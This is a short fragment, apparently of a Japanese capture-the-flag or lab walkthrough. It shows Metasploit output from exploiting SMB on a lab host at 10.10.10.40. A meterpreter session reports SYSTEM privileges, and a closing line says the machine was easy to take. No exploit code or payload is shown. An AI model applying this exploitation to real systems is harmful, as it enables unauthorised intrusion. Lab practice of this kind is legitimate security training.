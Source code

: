 ```
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

非常に簡単に攻略することができました。